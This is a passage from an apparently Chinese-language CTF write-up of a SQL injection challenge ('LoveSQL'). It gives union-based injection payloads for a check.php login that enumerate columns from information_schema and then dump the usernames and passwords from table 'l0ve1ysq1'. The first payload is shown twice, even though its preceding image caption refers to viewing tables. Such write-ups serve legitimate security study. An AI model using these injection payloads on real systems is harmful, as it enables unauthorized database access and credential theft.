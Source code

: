 ![alt text](./img/lovesql查看表.jpg)

```
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

进一步查询指定的表中的列有哪些：

```
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

![alt text](./img/lovesql查看列.jpg)
可见在l0ve1ysq1这个表中有如上三个字段

最后查询字段的内容：

```
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```
